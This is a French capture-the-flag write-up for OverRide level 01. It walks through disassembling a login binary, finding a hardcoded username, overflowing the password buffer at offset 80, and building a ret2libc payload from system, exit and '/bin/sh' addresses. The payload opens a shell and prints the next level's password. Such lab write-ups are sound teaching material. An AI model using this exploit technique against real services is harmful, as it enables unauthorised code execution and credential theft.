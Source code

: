 
# Level 01


En lancent l'executable a la racine du level 01 on peut voir qu'il nous demande un `user name`  si on test d'en mètre un au hasard on remarque que le programme quitte : 
```
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: test
verifying username....

nope, incorrect username...
```
En désassemblant `gdb`, on peut voir qu'il y a une fonction `verify_user_name`
```(gdb) disas main 
Dump of assembler code for function main:
   0x080484d0 <+0>:     push   %ebp
   0x080484d1 <+1>:     mov    %esp,%ebp
   0x080484d3 <+3>:     push   %edi
   0x080484d4 <+4>:     push   %ebx
   0x080484d5 <+5>:     and    $0xfffffff0,%esp
   0x080484d8 <+8>:     sub    $0x60,%esp
   0x080484db <+11>:    lea    0x1c(%esp),%ebx
   0x080484df <+15>:    mov    $0x0,%eax
   0x080484e4 <+20>:    mov    $0x10,%edx
   0x080484e9 <+25>:    mov    %ebx,%edi
   0x080484eb <+27>:    mov    %edx,%ecx
   0x080484ed <+29>:    rep stos %eax,%es:(%edi)
   0x080484ef <+31>:    movl   $0x0,0x5c(%esp)
   0x080484f7 <+39>:    movl   $0x80486b8,(%esp)
   0x080484fe <+46>:    call   0x8048380 <puts@plt>
   0x08048503 <+51>:    mov    $0x80486df,%eax
   0x08048508 <+56>:    mov    %eax,(%esp)
   0x0804850b <+59>:    call   0x8048360 <printf@plt>
   0x08048510 <+64>:    mov    0x804a020,%eax
   0x08048515 <+69>:    mov    %eax,0x8(%esp)
   0x08048519 <+73>:    movl   $0x100,0x4(%esp)
   0x08048521 <+81>:    movl   $0x804a040,(%esp)
   0x08048528 <+88>:    call   0x8048370 <fgets@plt>
   0x0804852d <+93>:    call   0x8048464 <verify_user_name>
   0x08048532 <+98>:    mov    %eax,0x5c(%esp)
   0x08048536 <+102>:   cmpl   $0x0,0x5c(%esp)
   0x0804853b <+107>:   je     0x8048550 <main+128>
   0x0804853d <+109>:   movl   $0x80486f0,(%esp)
   0x08048544 <+116>:   call   0x8048380 <puts@plt>
   0x08048549 <+121>:   mov    $0x1,%eax
   0x0804854e <+126>:   jmp    0x80485af <main+223>
   0x08048550 <+128>:   movl   $0x804870d,(%esp)
   0x08048557 <+135>:   call   0x8048380 <puts@plt>
   0x0804855c <+140>:   mov    0x804a020,%eax
   0x08048561 <+145>:   mov    %eax,0x8(%esp)
   0x08048565 <+149>:   movl   $0x64,0x4(%esp)
   0x0804856d <+157>:   lea    0x1c(%esp),%eax
   0x08048571 <+161>:   mov    %eax,(%esp)
   0x08048574 <+164>:   call   0x8048370 <fgets@plt>
   0x08048579 <+169>:   lea    0x1c(%esp),%eax
   0x0804857d <+173>:   mov    %eax,(%esp)
   0x08048580 <+176>:   call   0x80484a3 <verify_user_pass>
   0x08048585 <+181>:   mov    %eax,0x5c(%esp)
   0x08048589 <+185>:   cmpl   $0x0,0x5c(%esp)
   0x0804858e <+190>:   je     0x8048597 <main+199>
   0x08048590 <+192>:   cmpl   $0x0,0x5c(%esp)
   0x08048595 <+197>:   je     0x80485aa <main+218>
   0x08048597 <+199>:   movl   $0x804871e,(%esp)
   0x0804859e <+206>:   call   0x8048380 <puts@plt>
   0x080485a3 <+211>:   mov    $0x1,%eax
   0x080485a8 <+216>:   jmp    0x80485af <main+223>
   0x080485aa <+218>:   mov    $0x0,%eax
   0x080485af <+223>:   lea    -0x8(%ebp),%esp
   0x080485b2 <+226>:   pop    %ebx
   0x080485b3 <+227>:   pop    %edi
   0x080485b4 <+228>:   pop    %ebp
   0x080485b5 <+229>:   ret    
End of assembler dump.
(gdb) 
```
On cherche donc dans cette fonction et on trouve une string : “dat_wil”. On essaie alors d’entrer cette string en tant qu’username et cela nous permet d’accéder au champ password.
```
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
test
nope, incorrect password...

level01@OverRide:~$ 
```
On peut dans le desassembleur du main fait plus tot qu'il appelle egalement la fonction `verify_user_pass`
```   
0x08048580 <+176>:   call   0x80484a3 <verify_user_pass>
```
On voit dans cutter une string "admin" qui est comparer donc on tente donc d'entrer "admin" en password :
```
(gdb) r 
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
admin
nope, incorrect password...

[Inferior 1 (process 1656) exited with code 01]
(gdb) 
```
On voit que ca ne fonctionne pas, on vas donc essaye d'overflow le fgets du password 
```
Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
En entrant `0x37634136` dans un générateur de buffer-overflow : https://wiremask.eu/tools/buffer-overflow-pattern-generator/? on trouve un offset de 80, nous n'avons pas accès a un '/bin/sh' nous allons donc essayer de trouver avec une ret2libc attack.
```
(gdb) info proc map
process 1659
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
         0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0 
        0xf7fd8000 0xf7fdb000     0x3000        0x0 
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) 
```
On trouve l'adresse du "/bin/sh" a `0xf7f897ec` On va donc chercher l'adresse de system : 
```
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) 
```
Donc 0xf7e6aed0 , et celle d'exit :
```
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xf7e5eb70  exit
0xf7e5eba0  on_exit
0xf7e5edb0  __cxa_atexit
0xf7e5ef50  quick_exit
0xf7e5ef80  __cxa_at_quick_exit
0xf7ee45c4  _exit
0xf7f27ec0  pthread_exit
0xf7f2d4f0  __cyg_profile_func_exit
0xf7f4bc30  svc_exit
0xf7f55d80  atexit
(gdb) 
```
Ici nous prenons l'adresse de l'exit : `0xf7e5eb70` A partir de là nous pouvons créer notre payload :

> _Overflow + System + Exit + /bin/sh_

Ce qui nous donne :
```
level01@OverRide:~$ python -c "print 'dat_will' + '\n' + 'A' * 80 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7' " > /tmp/payload
level01@OverRide:~$ cat /tmp/payload - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```